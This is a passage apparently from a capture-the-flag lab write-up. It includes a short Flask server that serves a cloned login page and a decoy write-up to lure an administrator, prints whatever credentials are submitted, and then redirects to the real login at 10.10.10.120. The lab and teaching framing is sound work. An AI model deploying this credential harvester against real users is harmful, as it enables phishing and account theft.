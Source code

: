 <p>I also added a silly generic writeup to give the admin something to read.</p>

<h4 id="generate-login--server">Generate Login / Server</h4>

<p>I’ll grab the source from the login page and save it as <code class="language-plaintext highlighter-rouge">loginform.html</code>. The HTML form <code class="language-plaintext highlighter-rouge">action</code> points to <code class="language-plaintext highlighter-rouge">/accounts/login/</code>, Now I’ll write a quick Flask server to handle both the writeup and the fake login:</p>

<div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="c1">#!/usr/bin/env python3
</span>
<span class="kn">from</span> <span class="nn">flask</span> <span class="kn">import</span> <span class="o">*</span>


<span class="n">app</span> <span class="o">=</span> <span class="n">Flask</span><span class="p">(</span><span class="n">__name__</span><span class="p">,</span> <span class="n">template_folder</span><span class="o">=</span><span class="s">'.'</span><span class="p">)</span>

<span class="o">@</span><span class="n">app</span><span class="p">.</span><span class="n">route</span><span class="p">(</span><span class="s">"/writeup"</span><span class="p">)</span>
<span class="k">def</span> <span class="nf">writeup</span><span class="p">():</span>
    <span class="k">return</span> <span class="n">render_template</span><span class="p">(</span><span class="s">'writeup.html'</span><span class="p">)</span>


<span class="o">@</span><span class="n">app</span><span class="p">.</span><span class="n">route</span><span class="p">(</span><span class="s">"/accounts/login/"</span><span class="p">,</span> <span class="n">methods</span><span class="o">=</span><span class="p">[</span><span class="s">'GET'</span><span class="p">,</span> <span class="s">'POST'</span><span class="p">])</span>
<span class="k">def</span> <span class="nf">login</span><span class="p">():</span>

    <span class="k">if</span> <span class="n">request</span><span class="p">.</span><span class="n">method</span> <span class="o">==</span> <span class="s">'POST'</span><span class="p">:</span>
        <span class="k">print</span><span class="p">(</span><span class="s">'</span><span class="se">\n</span><span class="s">'</span><span class="p">.</span><span class="n">join</span><span class="p">([</span><span class="sa">f</span><span class="s">'</span><span class="si">{</span><span class="n">x</span><span class="p">[</span><span class="mi">0</span><span class="p">]</span><span class="si">}</span><span class="s">: </span><span class="si">{</span><span class="n">x</span><span class="p">[</span><span class="mi">1</span><span class="p">]</span><span class="si">}</span><span class="s">'</span> <span class="k">for</span> <span class="n">x</span> <span class="ow">in</span> <span class="n">request</span><span class="p">.</span><span class="n">form</span><span class="p">.</span><span class="n">items</span><span class="p">()]))</span>
        <span class="k">return</span> <span class="n">redirect</span><span class="p">(</span><span class="s">"http://10.10.10.120/accounts/login/"</span><span class="p">,</span> <span class="n">code</span><span class="o">=</span><span class="mi">302</span><span class="p">)</span>
    <span class="k">else</span><span class="p">:</span>
        <span class="k">return</span> <span class="n">render_template</span><span class="p">(</span><span class="s">'loginform.html'</span><span class="p">)</span>


<span class="k">if</span> <span class="n">__name__</span> <span class="o">==</span> <span class="s">"__main__"</span><span class="p">:</span>
    <span class="n">app</span><span class="p">.</span><span class="n">run</span><span class="p">(</span><span class="n">host</span><span class="o">=</span><span class="s">"0.0.0.0"</span><span class="p">,</span> <span class="n">port</span><span class="o">=</span><span class="mi">80</span><span class="p">)</span>
</code></pre></div></div>
